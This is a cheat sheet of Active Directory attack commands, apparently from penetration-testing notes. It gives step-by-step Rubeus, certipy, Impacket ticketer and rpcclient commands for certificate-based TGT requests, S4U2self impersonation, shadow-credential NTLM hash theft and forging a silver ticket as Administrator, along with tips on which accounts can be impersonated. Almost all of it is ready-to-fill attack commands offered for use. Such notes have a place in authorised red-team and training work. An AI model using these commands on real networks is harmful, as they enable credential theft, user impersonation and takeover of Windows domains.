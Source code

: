 ````

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Unpack the hash attack
```
.\Rubeus.exe asktgt /getcredentials /user:<COMPUTERACCOUNT>$ /certificate:<PATH TO PFX> /password:<PASSWORD OF PFX> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /show
```

#### Perform S4USelf attack to gain TGS ticket
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /self /impersonateuser:<USER TO IMPERSONATE> /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTERACCOUNT>$ /rc4:<NTLM> /ptt

.\Rubeus.exe s4u /self /impersonateuser:<USER TO IMPERSONATE> /altservice:http/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTERACCOUNT>$ /rc4:<NTLM> /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

### Linux
#### Get TGT on target machine
```
.\Rubeus.exe tgtdeleg /nowrap
```

#### Linux Convert ticket & Use
```
echo "<BASE64>" | base64 -d > ticket.kirbi
python3 ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<PATH TO ticket.ccache>
```

#### Retrieve NTLM hash using shadow credentials
```
certipy shadow auto -k -no-pass -dc-ip <DC IP> -account cb-webapp1 -target <FQDN DC> -debug
```

#### Retrieve SID of domain
```
rpcclient -U '%' <FQDN DOMAIN> -c 'lsaquery'
```

#### Request TGS ticket
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right.
- Make sure they are local admin on the target machine.
```
python3 ticketer.py -nthash <NTLM HASH> -domain <FQDN DOMAIN> -domain-sid <DOMAIN SID> -spn cifs/<FQDN COMPUTER ACCOUNT> Administrator
````